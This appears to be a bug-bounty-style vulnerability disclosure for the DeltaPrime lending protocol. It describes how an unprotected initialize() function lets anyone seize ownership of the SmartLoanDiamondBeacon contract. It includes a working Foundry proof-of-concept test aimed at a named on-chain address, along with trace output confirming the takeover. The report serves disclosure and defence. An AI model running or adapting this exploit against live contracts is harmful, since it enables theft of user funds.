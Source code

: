 I found the potential bug that could lead to contract hijacking in DeltaPrime protocol 


Target
https://github.com/DeltaPrimeLabs/deltaprime-primeloans

Vulnerability Details
DeltaPrime maintains all users’ prime accounts in the pattern of “Proxy+implementation” where each prime account is a proxy pointing to the implementation contract. The implementation contract, i.e., “SmartLoanDiamondBeacon”, adheres to the EIP-2535 standard (Diamond) and can only be managed by the protocol owner. This means that if a malicious user can manage to become the owner of the "SmartLoanDiamondBeacon" contract, he/she can gain control over all users' Prime accounts.

When i reviewed the DeltaPrime code implementation, i did indeed discover such a vulnerability. Specifically, this vulnerability involves a facet contract called “SmartLoanViewFacet”. This contract includes an “initialize()” function, originally designed to initialize the owner for a new prime account. However, we noticed that a hacker can directly call the “SmartLoanViewFacet::initialize()” function to hijack the owner of the “SmartLoanDiamondBeacon” contract.

With ownership of the “SmartLoanDiamondBeacon” contract, the hacker can arbitrarily modify the functionalities of the implementation for all prime accounts, enabling the hacker to steal all the protocol funds, including the funds in all DeltaPrime lending pools and all Prime Accounts. The estimated total loss is >$50M. For example, the hacker can add a “freeBorrow()” function to borrow all the lending pool funds without any solvency check.

Furthermore, once the owner of the “SmartLoanDiamondBeacon” contract is hijacked, there is no way for DeltaPrime to take it back or mitigate the exploit, which means the protocol is totally controlled by the hacker.

Validation steps
Vulnerability Code:

https://github.com/DeltaPrimeLabs/deltaprime-primeloans/blob/dev/main/contracts/facets/SmartLoanViewFacet.sol#L42


Proof of concept (POC):

![Image](https://github.com/user-attachments/assets/7d82a4e7-7f5e-4010-857f-e7add392f858)


// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/Test.sol";

interface ISmartLoanDiamondBeacon {
    function initialize(address owner) external;
}

contract POC is Test {
    string constant endpoint = "RPC_URL";
    address constant diamond = 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c;
    address constant newOwner = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4;// Note: it can be anyone.
		
    function setUp() public {
        vm.createSelectFork(endpoint, 234980496);
    }
    function test_hijackSmartLoanDiamondBeaconOwner() public {
        ISmartLoanDiamondBeacon(diamond).initialize(newOwner);
    }
}




Result after ran test on foundry:

Running 1 test for test/POC.t.sol:POC
[PASS] test_hijackSmartLoanDiamondBeaconOwner() (gas: 39748)
Traces:
  [39748] POC::test_hijackSmartLoanDiamondBeaconOwner()
    ├─ [36709] 0x62Cf82FB0484aF382714cD09296260edc1DC0c6c::initialize(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4)
    │   ├─ [29309] 0xD9EB3D537517040B339e6bea8dfA8EDe7f364512::initialize(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4) [delegatecall]
    │   │   ├─ emit OwnershipTransferred(param0: 0x43D9A211BDdC5a925fA2b19910D44C51D5c9aa93, param1: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4)
    │   │   └─ ← ()
    │   └─ ← ()
    └─ ← ()
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.28s

![Image](https://github.com/user-attachments/assets/81e34efc-fec6-4856-a7a7-a7e811c3effd)

